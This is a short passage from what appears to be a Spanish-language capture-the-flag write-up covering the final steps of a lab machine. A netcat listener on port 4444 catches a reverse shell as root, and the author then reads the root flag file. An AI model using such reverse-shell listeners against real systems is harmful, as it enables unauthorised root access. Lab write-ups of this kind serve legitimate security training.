Con el listener activo en el puerto 4444 (`nc -nlvp 4444`), se recibe conexión como **root** 

#### 7. 📦 Obtención de la flag de root

Una vez con acceso como root, se navega a `/root/root.txt` y se obtiene la **flag final**



